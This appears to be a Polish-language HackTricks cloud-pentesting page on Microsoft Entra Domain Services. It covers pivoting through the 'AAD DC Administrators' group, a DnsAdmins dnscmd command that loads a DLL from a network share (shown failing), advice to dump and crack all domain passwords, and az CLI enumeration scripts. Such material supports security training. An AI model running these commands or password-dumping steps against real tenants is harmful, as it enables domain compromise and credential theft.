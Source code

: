 # Az - Microsoft Entra Domain Services

{{#include ../../../../banners/hacktricks-training.md}}

## Usługi domenowe

Microsoft Entra Domain Services pozwala na wdrożenie Active Directory w Azure bez potrzeby zarządzania kontrolerami domeny (w rzeczywistości nie masz nawet do nich dostępu).

Jego głównym celem jest umożliwienie uruchamiania aplikacji dziedzicznych w chmurze, które nie mogą korzystać z nowoczesnych metod uwierzytelniania, lub w sytuacjach, gdy nie chcesz, aby zapytania do katalogu zawsze wracały do lokalnego środowiska AD DS.

Zauważ, że aby zsynchronizować użytkowników utworzonych w Entra ID (a nie zsynchronizowanych z innymi aktywnymi katalogami) z usługą domeny AD, musisz **zmienić hasło użytkownika** na nowe, aby mogło być zsynchronizowane z nowym AD. W rzeczywistości użytkownik nie jest synchronizowany z Microsoft Entra ID do Usług Domenowych, dopóki hasło nie zostanie zmienione.

> [!WARNING]
> Nawet jeśli tworzysz nową domenę aktywnego katalogu, nie będziesz w stanie zarządzać nią w pełni (chyba że wykorzystasz jakieś błędy konfiguracyjne), co oznacza, że domyślnie na przykład nie możesz tworzyć użytkowników w AD bezpośrednio. Tworzysz ich poprzez **synchronizację użytkowników z Entra ID.** Możesz wskazać synchronizację wszystkich użytkowników (nawet tych zsynchronizowanych z innymi lokalnymi AD), tylko użytkowników chmurowych (użytkowników utworzonych w Entra ID) lub nawet **jeszcze bardziej je filtrować**.

> [!NOTE]
> Ogólnie rzecz biorąc, z powodu braku elastyczności w konfiguracji nowej domeny oraz faktu, że AD zazwyczaj już istnieją lokalnie, nie jest to główna integracja między Entra ID a AD, ale wciąż interesujące jest wiedzieć, jak to skompromitować.

### Pivoting

Członkowie wygenerowanej grupy **`AAD DC Administrators`** mają przyznane lokalne uprawnienia administratora na maszynach wirtualnych, które są dołączone do zarządzanej domeny (ale nie w kontrolerach domeny), ponieważ są dodawani do lokalnej grupy administratorów. Członkowie tej grupy mogą również korzystać z **Zdalnego Pulpitu, aby łączyć się zdalnie z maszynami wirtualnymi dołączonymi do domeny**, a także są członkami grup:

- **`Denied RODC Password Replication Group`**: To grupa, która określa użytkowników i grupy, których hasła nie mogą być buforowane na RODC (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: Ta grupa pozwala członkom na tworzenie zasad grup w domenie. Jednak jej członkowie nie mogą stosować zasad grup do użytkowników ani grup ani edytować istniejących GPO, więc nie jest to zbyt interesujące w tym środowisku.
- **`DnsAdmins`**: Ta grupa pozwala na zarządzanie ustawieniami DNS i była wykorzystywana w przeszłości do [eskalacji uprawnień i kompromitacji domeny](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), jednak po przetestowaniu ataku w tym środowisku sprawdzono, że luka jest załatana:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
Zauważ, że aby przyznać te uprawnienia, w AD grupa **`AAD DC Administrators`** jest członkiem wcześniejszych grup, a także GPO **`AADDC Computers GPO`** dodaje jako lokalnych administratorów wszystkich członków grupy domenowej **`AAD DC Administrators`**.

Przechodzenie z Entra ID do AD utworzonego za pomocą Domain Services jest proste, wystarczy dodać użytkownika do grupy **`AAD DC Administrators`**, uzyskać dostęp przez RDP do dowolnych/wszystkich maszyn w domenie i będziesz mógł ukraść dane oraz **skompromitować domenę.**

Jednak przechodzenie z domeny do Entra ID nie jest tak łatwe, ponieważ nic z domeny nie jest synchronizowane z Entra ID. Zawsze sprawdzaj metadane wszystkich VM, ponieważ ich przypisane zarządzane tożsamości mogą mieć interesujące uprawnienia. Również **zrzucaj wszystkie hasła użytkowników z domeny** i próbuj je złamać, aby następnie zalogować się do Entra ID / Azure.

> [!NOTE]
> Zauważ, że w przeszłości znaleziono inne luki w tym zarządzanym AD, które pozwalały na kompromitację DC, [jak ta](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). Atakujący, który skompromitował DC, mógł bardzo łatwo utrzymać trwałość, nie zauważając tego przez administratorów Azure ani nawet nie będąc w stanie tego usunąć.

### Enumeracja
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../../banners/hacktricks-training.md}}
